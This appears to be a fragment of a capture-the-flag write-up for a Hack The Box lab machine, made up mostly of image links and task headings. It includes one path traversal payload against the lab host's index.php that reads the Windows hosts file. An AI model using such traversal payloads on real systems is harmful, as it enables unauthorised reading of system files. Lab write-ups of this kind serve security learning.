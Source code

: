 ![resphp](/assets/img/resphp.png)

TASK 4

Then i searched this on the search bar to exploit the web page 

> http://unika.htb/index.php page=../../../../../../../../windows/system32/drivers/etc/hosts

![resexploit](/assets/img/resexploit.png)

TASK 9
